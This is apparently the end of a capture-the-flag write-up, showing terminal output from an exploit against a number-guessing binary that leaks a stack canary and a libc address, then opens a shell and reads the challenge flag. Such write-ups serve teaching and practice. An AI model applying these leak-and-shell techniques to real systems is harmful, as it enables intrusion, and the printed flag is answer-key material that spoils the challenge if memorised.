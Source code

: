 ```
3
b' number are you guessing (0-7)?'
b' Enter your guess:'
0x70
4
b' number are you guessing (0-7)?'
b' Enter your guess:'
0x78
5
b' number are you guessing (0-7)?'
b' Enter your guess:'
0x7c
6
b' number are you guessing (0-7)?'
b' Enter your guess:'
0x7e
7
0x7f76152d90b3
i used 7 guesses
canary is 0x125411c60a2fe000
libc leak is 0x7f76152d90b3
b' number are you guessing (0-7)?'
b' Enter your guess:'
0x0
b' You got it!\nSo, what did you think of my game?'
libc start main is at 0x7f76152d8fc0
[*] Switching to interactive mode
 $ ls
bin
boot
dev
etc
flag.txt
guess
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag.txt
rarctf{4nd_th3y_s41d_gu3ss1ng_1snt_fun!!_c9cbd665}
$  
```
Thanks for reading!
